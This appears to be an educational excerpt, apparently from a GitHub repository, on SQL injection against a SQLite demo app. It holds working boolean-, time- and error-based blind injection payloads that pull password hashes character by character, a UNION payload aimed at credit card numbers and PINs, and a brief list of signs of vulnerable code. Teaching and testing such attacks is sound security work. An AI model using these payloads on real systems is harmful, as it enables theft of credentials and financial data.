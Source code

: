 #### Boolean-Based
```sql
-- Test if user exists (true condition)
' AND (SELECT COUNT(*) FROM users WHERE username='alice')>0--

-- Test password length (true condition)
' AND (SELECT LENGTH(password_hash) FROM users WHERE username='alice')>8--

-- Extract password hash character by character
' AND (SELECT hex(substr(password_hash,1,1)) FROM users WHERE username='alice')>'50'--

-- Test if user has high balance
' AND (SELECT balance FROM users WHERE username='alice')>1000--
```

#### Time-Based (SQLite)
```sql
-- Test if user exists using SQLite sleep
' AND (SELECT CASE WHEN (SELECT COUNT(*) FROM users WHERE username='alice')>0 
    THEN randomblob(100000000) ELSE randomblob(1) END)--

-- Extract data using time delays
' AND (SELECT CASE WHEN (SELECT substr(password_hash,1,1) FROM users WHERE username='alice')>'5' 
    THEN randomblob(100000000) ELSE randomblob(1) END)--

-- Test if balance is high
' AND (SELECT CASE WHEN (SELECT balance FROM users WHERE username='alice')>1000 
    THEN randomblob(100000000) ELSE randomblob(1) END)--
```

#### Error-Based (SQLite)
```sql
-- Force type conversion errors to extract information
' AND CAST((SELECT CASE WHEN (username='alice') THEN '1' ELSE '0' END FROM users) AS INT)--

-- Extract data through CAST errors
' AND CAST((SELECT substr(password_hash,1,1) FROM users WHERE username='alice') AS INT)--

-- Test column existence through errors
' AND (SELECT CASE WHEN typeof((SELECT balance FROM users LIMIT 1))='integer' 
    THEN CAST('true' AS INT) ELSE CAST('false' AS INT) END)--
```

### 3. Data Theft
```sql
-- Original query
SELECT * FROM users WHERE username = 'alice'

-- Attack input: alice' UNION SELECT cardnumber,pin FROM creditcards--
-- This tries to steal credit card data!
```

### How to Spot SQL Injection Vulnerabilities
Look for places where:
1. 🔍 User input goes into database queries
2. 🔍 Error messages show SQL syntax
3. 🔍 URLs have database parameters like `id=1`
